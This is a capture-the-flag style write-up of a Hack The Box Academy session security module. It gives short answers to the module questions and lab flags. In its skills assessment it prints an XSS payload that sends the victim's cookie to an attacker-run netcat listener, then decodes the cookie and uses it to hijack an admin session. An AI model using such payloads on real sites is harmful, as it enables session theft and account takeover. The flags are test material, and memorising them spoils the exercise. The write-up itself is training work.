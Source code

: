 # Session Security
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Session Security
* Tier: II
* Difficulty: Medium
* Category: Offensive
* Time estimate: 7 hours
* Date: 27-07-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Session Hijacking
### Question:
![](./attachments/Pasted%20image%2020220725115211.png)

![](./attachments/Pasted%20image%2020220725122711.png)

**Answer:** `cookie`

---
## Session Fixation
### Question:
![](./attachments/Pasted%20image%2020220725115239.png)

**Answer:** `Yes`

---
## Obtaining Session Identifiers without User Interaction
### Question:
![](./attachments/Pasted%20image%2020220725115311.png)

**Answer:** `Yes`

---
## Cross-Site Scripting (XSS)
### Question:
![](./attachments/Pasted%20image%2020220725115336.png)

**Answer:** `Yes`

---
## Cross-Site Request Forgery (CSRF or XSRF)
### Question:
![](./attachments/Pasted%20image%2020220725115413.png)


**Answer:** `Yes`

---
## Cross-Site Request Forgery (GET-based)
### Question:
![](./attachments/Pasted%20image%2020220725115440.png)

**Answer:** `Yes`

---
## Cross-Site Request Forgery (POST-based)
### Question:
![](./attachments/Pasted%20image%2020220725115529.png)

**Answer:** `Yes`

---
## XSS & CSRF Chaining
### Question:
![](./attachments/Pasted%20image%2020220725115551.png)

**Answer:** `Yes`

---
## Exploiting Weak CSRF Tokens
### Question:
![](./attachments/Pasted%20image%2020220725115616.png)

**Answer:** `Popup Blockers`

---
## Open Redirect
### Question:
![](./attachments/Pasted%20image%2020220725115638.png)

**Answer:** ``

---
## Skills Assessment
### Question 1:
![](./attachments/Pasted%20image%2020220725115741.png)

*Hint: Make the admin's profile public to see the flag*

Payload: 
```
<script>fetch(`http://10.10.14.225:8000?cookie=${btoa(document.cookie)}`)</script>
```

![](./attachments/Pasted%20image%2020220727110439.png)

Send the malicious link to the admin.

![](./attachments/Pasted%20image%2020220727111018.png)

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8000
listening on [any] 8000 ...
connect to [10.10.14.225] from (UNKNOWN) [10.129.19.44] 60226
GET /?cookie=YXV0aC1zZXNzaW9uPXMlM0FtdHN3RzFfMW0zekRPN3BfTmc1WlpfQnBXeTZKTXZHdC5rMU1tUUtjZE44Q1Z6SG5kWjJzQzVjJTJCemhkNGlINEVuQUM5WFdwak9KdVk= HTTP/1.1
Host: 10.10.14.225:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 [258e2c35733847d0e90492bee74d19f8544c9d68]
Accept: */*
Origin: http://minilab.htb.net
Referer: http://minilab.htb.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Netcat recieved a cookie in base64 format.

```
┌──(kali㉿kali)-[~]
└─$ echo "YXV0aC1zZXNzaW9uPXMlM0FtdHN3RzFfMW0zekRPN3BfTmc1WlpfQnBXeTZKTXZHdC5rMU1tUUtjZE44Q1Z6SG5kWjJzQzVjJTJCemhkNGlINEVuQUM5WFdwak9KdVk=" | base64 -d
auth-session=s%3AmtswG1_1m3zDO7p_Ng5ZZ_BpWy6JMvGt.k1MmQKcdN8CVzHndZ2sC5c%2Bzhd4iH4EnAC9XWpjOJuY
```

We got a session cookie!

Insert it into the browser on order to hijack the session.

![](./attachments/Pasted%20image%2020220727111423.png)

Make public > share.

![](./attachments/Pasted%20image%2020220727111524.png)

**Answer:** `[YOU_ARE_A_SESSION_WARRIOR]`

### Question 2:
![](./attachments/Pasted%20image%2020220725115749.png)

Download the `.pcap` file.

Edit > Find Packet... > String > "flag"

![](./attachments/Pasted%20image%2020220727111706.png)

**Answer:** `FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}`

---

**Tags:** [[Hack The Box Academy]]